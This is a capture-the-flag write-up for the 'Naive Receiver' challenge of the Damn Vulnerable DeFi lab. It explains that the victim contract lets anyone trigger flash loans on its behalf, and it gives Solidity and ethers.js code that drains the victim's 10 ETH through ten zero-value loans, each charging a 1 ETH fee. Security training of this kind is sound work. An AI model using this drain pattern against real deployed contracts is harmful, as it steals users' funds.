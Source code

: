 ### [Task Contracts](https://github.com/tinchoabbate/damn-vulnerable-defi/tree/v3.0.0/contracts/naive-receiver)

### Task

>There’s a pool with 1000 ETH in balance, offering flash loans. It has a fixed fee of 1 ETH.

>A user has deployed a contract with 10 ETH in balance. It’s capable of interacting with the pool and receiving flash loans of ETH.

>Take all ETH out of the user’s contract. If possible, in a single transaction.

### Observations

- The Reveicever Contract has "Naively" allowed anyone to call a flash loan on it's behalf. 

- The pool it calls to remains the same so we cannot pretend to be a flashloan provider.

- However the pool in question provides a fixed fee of 1 Eth. 

- We can create a contract to make a flashloan 10 times to drain 10 Eth.

### Steps

- Write a for loop that calls the lender contracts `flashLoan` function on the naive receivers behalf...10 times. Doesn't even need to borrow a value > 0.

```
constructor(
        address payable poolAddress,
        address receiverAddress,
        address token
    ) {
        for (uint256 i = 0; i < 10; i++) {
            NaiveReceiverLenderPool(poolAddress).flashLoan(
                IERC3156FlashBorrower(receiverAddress),
                token,
                0,
                bytes("")
            );
        }
    }
```

- Deploy the malicious contract, the malicious action will run in the constructor.

```
const ETH = await pool.ETH()

const NaiveReceiverHack = await ethers.getContractFactory("NaiveReceiverHack", player.address)

await NaiveReceiverHack.deploy(pool.address, receiver.address, ETH);
```

